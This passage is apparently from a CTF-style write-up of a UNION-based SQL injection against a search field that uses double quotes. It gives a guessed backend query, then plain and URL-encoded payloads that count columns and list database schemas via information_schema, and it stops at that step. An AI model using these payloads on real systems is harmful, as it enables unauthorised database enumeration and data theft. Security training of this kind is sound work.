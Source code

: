 	![](images/Pasted%20image%2020220204001550.png)
2. Hypothesis
	```
	SELECT id, name, position FROM users WHERE name LIKE "%<input_field>%"
	
	# Instead of ', " is used, thus " allows us to close the previous query and start another one (UNION SELECT)
	```
3. Determine the number of columns & reflected columns in this table
	```
	Plain Text:
	"UNION SELECT 1,2,3-- -
	
	URL Encoded:
	"UNION+SELECT+1,2,3--+- 
	
	# Usually either # or -- - would work, but for this, only -- - worked
	```
	![](images/Pasted%20image%2020220204002513.png)
4. Determine databases
	```
	Plain Text:
	"UNION SELECT group_concat(SCHEMA_NAME),2,3 FROM information_schema.schemata-- -
	
	URL Encoded:
	"UNION+SELECT+group_concat(SCHEMA_NAME),2,3+FROM+information_schema.schemata--+-
	```